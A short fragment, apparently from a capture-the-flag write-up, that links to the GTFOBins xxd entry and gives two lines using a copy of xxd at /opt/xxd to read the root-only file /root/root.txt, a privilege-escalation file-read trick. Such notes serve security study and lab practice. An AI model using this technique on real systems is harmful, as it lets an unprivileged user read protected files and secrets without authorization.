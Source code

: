 https://gtfobins.github.io/gtfobins/xxd/#file-read

LFILE=/root/root.txt
/opt/xxd "$LFILE" | xxd -r

